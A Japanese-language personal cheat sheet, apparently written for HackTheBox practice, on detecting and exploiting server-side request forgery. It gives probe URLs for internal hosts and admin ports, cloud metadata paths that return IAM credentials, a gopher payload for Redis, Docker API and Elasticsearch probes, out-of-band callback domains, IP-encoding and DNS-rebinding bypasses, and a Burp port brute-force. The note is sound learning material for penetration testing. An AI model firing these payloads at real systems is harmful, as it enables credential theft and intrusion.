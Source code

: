 ### **SSRF（Server-Side Request Forgery)

SSRF（サーバーサイドリクエストフォージェリ）は、攻撃者がサーバーに不正なリクエストを送信させ、内部ネットワークや非公開のAPIにアクセスさせる脆弱性
## **SSRFを疑うべきケース**

SSRFの可能性がある状況

1. **ユーザーが指定したURLに対してサーバーがリクエストを送る機能がある**
    
    - **画像のURLプレビュー**  
        → ユーザーがURLを入力すると、画像を取得して表示する
    - **Webhooksの登録**  
        → ユーザーがWebhookのURLを指定すると、サーバーがリクエストを送る
    - **APIリクエストの中継（Proxy機能）**  
        → 外部APIと連携するシステム（例: OpenGraph、RSSリーダー）
2. **外部サービスとの通信を行う機能がある**
    
    - **PDF生成機能**  
        → WebページをPDFに変換するサービス（URLを直接指定できる場合が多い）
    - **クラウド関連の操作がある** → AWSやGCP環境のメタデータにアクセスできる可能性がある
    - **URLフィルタリングが甘いAPI**  
        → 任意のURLにリクエストを送れる（API GatewayやOpen Redirectが存在）
3. **エラーメッセージにリクエスト結果が表示される**
    
    - **リダイレクトが発生する**
    - **リクエスト先のエラーメッセージがレスポンスに表示される**

---

## **SSRFの検証方法**

まずSSRFかもと思ったら、下を試す前に怪しまれないように確認する方法
→自分(攻撃者側)の端末にリクエストを飛ばさせる
netcatで待機
```
nc -lvnp 5555
```
`http://自分のIP:5555`にアクセスして、nc側にリクエストが飛んでくるかを確認する
リクエストが飛んできた場合
→SSRFの脆弱性がある

下に進む

### **1. 内部ネットワークアクセスを試す**

まず、内部サービスへのアクセスを確認するために、ローカルアドレスにリクエストを送る。

#### **基本的なSSRFテスト**

入力フォームやAPIエンドポイントに、以下のURLを試す。

```bash
http://127.0.0.1/
http://localhost/
http://192.168.1.1/
http://10.0.0.1/
http://[::1]/
```

→ 何らかのレスポンスがある場合、内部アクセスが可能な可能性が高い。

#### **管理パネルのチェック**

SSRFで管理パネルやアプリケーションにアクセスできるかを調査

```bash
http://localhost/admin
http://127.0.0.1:8000/
http://127.0.0.1:8080/
http://127.0.0.1:5000/
http://127.0.0.1:9001/ (Supervisor)
```

→ 404以外のレスポンスや特定の管理画面のレスポンスが返ってきたら脆弱性あり。

---

### **2. クラウドメタデータの取得**

クラウド環境（AWSやGCPなど）のメタデータサーバーが取得できるか試す。

#### **AWSのメタデータ**

```bash
http://169.254.169.254/latest/meta-data/
http://169.254.169.254/latest/meta-data/iam/security-credentials/
```

→ IAMクレデンシャルが取得できる場合、EC2の特権情報を取得できる。

#### **GCPのメタデータ**

```bash
http://metadata.google.internal/computeMetadata/v1/
```

→ GCPのインスタンス情報が取得できる。

#### **Azureのメタデータ**

```bash
http://169.254.169.254/metadata/instance?api-version=2021-01-01
```

---

### **3. SSRF to RCE（リモートコード実行）**

一部のシステムでは、SSRFを利用してリモートコード実行（RCE）につながることがある。

#### **Redisへのアクセス**

Redisのデフォルトポート `6379` にアクセスできるかを試す

```bash
http://127.0.0.1:6379/
gopher://127.0.0.1:6379/_%2A1%0D%0A$4%0D%0Ainfo%0D%0A
```

→ Redisにアクセスできるなら、後続の攻撃が可能。

#### **Elasticsearchへのアクセス**

```bash
http://127.0.0.1:9200/_cat/indices
```

→ もしElasticsearchのデータが取得できるなら、内部情報を抜き出せる。

#### **Docker APIの利用**

Dockerが動いているかを確認：

```bash
http://127.0.0.1:2375/images/json
```

→ コンテナ作成が可能なら、RCEのチャンス。

---

### **4. DNS Exfiltration（データ流出の確認）**

SSRFを利用して、攻撃者が制御するサーバーにリクエストを送らせることで、外部通信が可能かを確認する。

#### **Burp Collaborator / Interactsh**

Burp CollaboratorやInteractshを使い、サーバーが外部へリクエストを送信するかを確認

```bash
http://your-burp-collaborator-id.burpcollaborator.net/
http://your-interactsh-id.interact.sh/
```

→ もしサーバーがリクエストを送信してきたら、外部通信が可能な証拠。

---

### **5. Bypass Techniques（フィルタ回避）**

一部のサーバーでは、SSRFを防ぐために「`localhost` へのリクエスト禁止」などの制限がある。以下の方法でバイパスを試す。

#### **IPアドレスのエンコード**

```bash
http://2130706433/  # 127.0.0.1 を整数表記
http://0x7F000001/  # 127.0.0.1 を16進数
```

#### **DNS Rebinding**

一部のサーバーでは、外部ドメインから内部へリクエストを送れるようになる。

```bash
http://attacker-controlled-domain.com/
```

→ DNSリバインディングを利用し、`localhost` へリダイレクト。

### 最終奥義 : Burpsuiteでブルートフォースで管理用ポートを探し出す
ここでは、内部向けの公開されていない空いているポートを探す
Burp SuiteのIntruderを使って、すべてのポートで試す
こんな感じで、該当部分をIntruderに送って、画像内の80の部分を「1~65535」で探す。
(*なんかFreeバージョンだと制限かかって動かなそう)
![](https://raw.githubusercontent.com/crum7/Obsidian/main/%E8%84%86%E5%BC%B1%E6%80%A7%E8%A9%B3%E7%B4%B0/images/Pasted%20image%2020250130145732.png)
![](https://raw.githubusercontent.com/crum7/Obsidian/main/%E8%84%86%E5%BC%B1%E6%80%A7%E8%A9%B3%E7%B4%B0/images/Pasted%20image%2020250130145941.png)

(なんかFreeバージョンだと制限かかって動かなそう)
pythonで同じことをする

---
## **まとめ**

HTBでSSRFを調査する際は、以下の流れでテストするとよい：

1. **内部ネットワークへのアクセスを試す**（`localhost`、`127.0.0.1` など）
2. **クラウドメタデータの取得を試す**（AWS、GCP、Azure）
3. **SSRFからのRCEを狙う**（Redis、Docker、Elasticsearch）
4. **DNS Exfiltrationを試す**（Burp Collaborator / Interactsh）
5. **フィルタ回避を試す**（IPエンコード、DNSリバインディング）

**内部APIやクラウド情報を抜き取ることで、次の攻撃につなげる** ケースが多いので、SSRFの発見は重要！